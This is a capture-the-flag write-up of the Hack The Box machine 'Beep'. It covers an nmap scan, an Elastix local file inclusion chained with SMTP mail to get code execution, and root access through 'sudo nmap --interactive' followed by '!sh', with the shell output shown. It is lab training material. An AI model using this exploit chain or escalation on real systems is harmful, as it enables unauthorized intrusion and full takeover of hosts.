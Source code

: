 ```yaml
---
layout: post
title: Beep
date: 2020-03-31
author: th3-3inst3in
comments: true
categories: htb
tags: [Linux,htb]
---
```


## Beep writeup

Easy Linux machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/main.png)


Let's do a quick nmap all ports

```perl

Nmap scan report for 10.10.10.7
Host is up (0.17s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL LOGIN-DELAY(0) APOP IMPLEMENTATION(Cyrus POP3 server v2) EXPIRE(NEVER) USER RESP-CODES PIPELINING STLS AUTH-RESP-CODE TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ACL THREAD=ORDEREDSUBJECT SORT=MODSEQ LISTEXT OK URLAUTHA0001 X-NETSCAPE CHILDREN IMAP4rev1 LITERAL+ SORT LIST-SUBSCRIBED BINARY NO CONDSTORE STARTTLS CATENATE ANNOTATEMORE UNSELECT QUOTA NAMESPACE Completed IDLE IMAP4 RIGHTS=kxte THREAD=REFERENCES ATOMIC MULTIAPPEND RENAME MAILBOX-REFERRALS ID UIDPLUS
443/tcp   open  ssl/https?
|_ssl-date: 2020-04-02T05:25:23+00:00; +5m16s from scanner time.
879/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 5m15s
                        

```

<br>

### Enumeration

- The Elastix application running on port 80 is vulnerable to LFI https://www.exploit-db.com/exploits/37637


![LFI]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/lfi.png)

Now there is a method where you can achieve code execution using LFI and SMTP. 
Lets first try to verify if we can send mail using SMTP and also find some users using the /etc/passwd file from the LFI


![SMTP]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/SMTP.png)



### Exploitation


Now I tried using fanis user but I could not read his mail so I tried again with asterisk and it worked, I sent a mail again to asterisk and read the mail using LFI which executed as code.

![codeexec]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Beep/codeexec.png)



Now post enumeration and priv esec 

```perl

bash-3.2$ id
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ 



bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# 




```